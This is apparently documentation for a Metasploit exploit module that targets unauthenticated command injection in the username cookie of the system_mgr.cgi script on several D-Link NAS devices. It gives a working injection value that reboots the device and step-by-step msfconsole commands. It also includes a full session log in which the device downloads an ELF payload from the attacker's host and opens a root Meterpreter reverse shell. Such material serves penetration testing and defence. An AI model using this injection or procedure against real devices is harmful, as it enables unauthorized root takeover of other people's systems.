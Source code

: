 This module exploits an unauthenticated OS command injection vulneralbility to execute arbitrary commands on the operating system. The vulnerable file is `/cgi-bin/system_mgr.cgi` is within the username value of a cookie. Any arbitrary command can be executed  within the username field in a cookie like the following : `username=' $(reboot)'`will reboot the device.

## Vulnerable Application
D-LINK DNR-326 v.1.40b03, DNS-327 v.1.02, DNS-320L v.1.03 and DNS-320 revision a, v.2.03

## Verification Steps
  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_multi_system_mgr_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD [payload]`
  5. Do : `run`
  6. If device is vulnerable, payload should be dropped via wget and executed, and therein obtain an session

## Scenarious
If vulnerable router, output should be similiar to this
```
msf > use exploit/linux/http/dlink_multi_system_mgr_unauth_exec
msf exploit(dlink_multi_system_mgr_unauth_exec) > set RHOST 192.168.0.14
RHOST => 192.168.0.14
msf exploit(dlink_multi_system_mgr_unauth_exec) > set LHOST ens3
LHOST => ens3
msf exploit(dlink_multi_system_mgr_unauth_exec) > set LPORT 31533
LPORT => 31533
msf exploit(dlink_multi_system_mgr_unauth_exec) > run
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.0.11:31533
[*] 192.168.0.14:80 - Connecting to target...
msf exploit(dlink_multi_system_mgr_unauth_exec) > [*] 192.168.0.14:80 - Starting up web service http://192.168.0.11:8080/rLdzhCCcJOztcjm
[*] Using URL: http://0.0.0.0:8080/rLdzhCCcJOztcjm
[*] Local IP: http://192.168.0.11:8080/rLdzhCCcJOztcjm
[*] 192.168.0.14:80 - Asking target to request to download http://192.168.0.11:8080/rLdzhCCcJOztcjm
[*] 192.168.0.14:80 - Sending payload to the server...
[*] 192.168.0.14:80 - Waiting for target to request the ELF payload...
[*] 192.168.0.14:80 - Requesting device to chmod rLdzhCCcJOztcjm
[*] 192.168.0.14:80 - Requesting device to execute rLdzhCCcJOztcjm
[*] Sending stage (782120 bytes) to 192.168.0.14
[*] Meterpreter session 1 opened (192.168.0.11:31533 -> 192.168.0.14:38321) at 2017-10-26 12:29:26 -0400
[+] Deleted /tmp/hupkkwbx
[-] Exploit aborted due to failure: unknown: 192.168.0.14:80 - Unable to deploy payload
[*] Server stopped.
ls
[*] exec: ls

dlink_dnr326_system_mgr_unauth_exec.rb
msf exploit(dlink_multi_system_mgr_unauth_exec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                    Connection
  --  ----  ----                     -----------                                    ----------
  1         meterpreter armle/linux  uid=0, gid=0, euid=0, egid=0 @ 192.168.10.220  192.168.0.11:31533 -> 192.168.0.14:38321 (192.168.0.14)

msf exploit(dlink_multi_system_mgr_unauth_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 192.168.0.14
OS           :  (Linux 2.6.31.8)
Architecture : armv5tel
Meterpreter  : armle/linux
meterpreter >
```
